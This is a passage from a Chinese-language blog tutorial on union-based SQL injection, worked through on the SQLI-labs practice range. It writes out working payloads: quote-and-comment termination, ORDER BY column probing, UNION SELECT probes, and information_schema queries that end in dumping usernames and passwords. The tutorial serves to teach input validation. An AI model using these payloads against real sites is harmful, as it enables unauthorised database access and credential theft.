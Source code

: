 ```yaml
---
date: '2025-02-25T21:02:50+08:00'
categories: ["安全"]
title: '永远不要相信用户的输入：从 SQL 注入攻防看输入验证的重要性'
---
```


学习编程之初就常被告诫：“永远不要相信用户的输入”，但实际编码中，可能因为各种原因而忽略这点，本文尝试以 SQL 注入的角度探寻校验输入的重要性

以下实验均以 [SQLI labs](https://github.com/Audi-1/sqli-labs) 靶场为例  

---

#### 1. 联合注入（Union-Based）  

来自：[Less-1](https://github.com/Audi-1/sqli-labs/tree/master/Less-1)


![](../sql-injection/1.png)

这是一个常见的查询页面。`http://127.0.0.1/Less-1/?id=1` ，通过 `id=1` 传递参数。后端常见的 SQL 写法：`SELECT * FROM users WHERE id='$id' LIMIT 0,1;`


攻击者可以通过构造 `id` 的参数值，执行任意的 SQL 语句：


![](../sql-injection/2.png)


其中关键步骤是构造 `1' --+`：
1. 通过某个具体参数 `1` 和 单引号 `'` 来结束前面的语句：`SELECT * FROM users WHERE id='`，使其成为合法的 SQL 语句： `SELECT * FROM users WHERE id='1'`
2. 通过 `--+` 来注释后面的 `' LIMIT 0,1";`


基于上面的原理，我们就可以在 `1'` 和 `--+` 之间插入语句了，进行联合注入，具体步骤如下：

1. 通过 `order by` 测列宽：`?id=-1' order by 4 --+`，通过不断尝试和错误提示可以得知列宽为 3
![](../sql-injection/3.png)

2. 判断回显值对应的位置，`?id=-1' union select 1,2,3 --+`，2 和 3 这两个位置都可供使用
![](../sql-injection/4.png)

3. 在某个可回显的位置执行 select 语句：`?id=-1' union select 1,2, database() --+`
![](../sql-injection/5.png)

你可以能会想，这又啥用呢？但实际上在没有**严格权限管理**的数据库上，我们可以通过构造下面语句获得所有库表的信息

```sql
--+ 1. 查库：查询所有数据库的名称
SELECT schema_name FROM information_schema.schemata
--+ 2. 查表：查询指定数据库中的所有表
SELECT table_name FROM information_schema.tables WHERE table_schema='security'
--+ 3. 查列：查询表中的所有列
SELECT column_name FROM information_schema.columns WHERE table_name='users'
--+ 4. 查字段：获取用户表中的敏感数据，如用户名和密码
SELECT username, password FROM security.users
```
